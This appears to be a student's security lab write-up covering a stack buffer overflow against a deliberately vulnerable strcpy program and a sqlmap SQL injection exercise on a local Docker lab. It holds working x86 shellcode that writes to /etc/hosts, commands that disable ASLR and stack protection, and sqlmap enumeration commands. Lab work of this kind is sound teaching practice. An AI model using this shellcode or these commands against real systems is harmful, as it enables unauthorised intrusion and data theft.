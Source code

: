 # Lab 1, 22110074, Nguyen Le Phuong Thu, INSE_02FIE

## Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
 char buffer[16];
 strcpy(buffer,argv[1]);
 return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### 1. Fire up docker-compose to run the docker conteiner `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` and then change working directory to the folder have this file

![image](./img/run%20docker.png)

### 2. Compile with nasm and then link with ld to generate executable file

![image](/img/compile.png)

### 3. Dump to `test.o` to show information of this file

`objdump -d test.o`
![image](/img/objdump.png)

### 4. Get the hex string of shellcode

Run the script `for i in $(objdump -d test | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`
![image](/img/hex%20string.png)

### 5. Prepare for the lab environment

- Turn off OS's address space layout randomization `sudo sysctl -w kernel.randomize_va_space=0`
- Compile program with options to defeat stack protecting mechanism and code execution on stack `gcc lab1.c -o lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](/img/prepare.png)

### 6. Stack frame 


![image](/img/stack.png)

> We have the byte of the buffer in this code is smaller than the byte of hex string of shellcode. So I use environment variables to exploit

### 7. Add shellcode to environment and get env address with C code

![image](/img/env.png)

### 8. Debug with gdb `gdb -q ./lab1.out`

![image](/img/gdb.png)

### 9. Find the address of env

`find /home/seed/seclabs/buffer-overflow/lab1`
![image](/img/find.png)

### 10. Run program in gdb with injecting argument

![image](/img/run.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

### 1. Change working directory to folder of SQli

![image](/img/sqli.png)

### 2. Fire up the docker-compose to create the docker-container set for this lab

![image](/img/build%20sqli.png)



### 3. Install sqlmap
![image](/img/sqlmap.png)


**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
To retrieve information about all available databases, use
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" --dbs
'''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
To list tables in a specific database
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" -D database_name --tables
'''

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
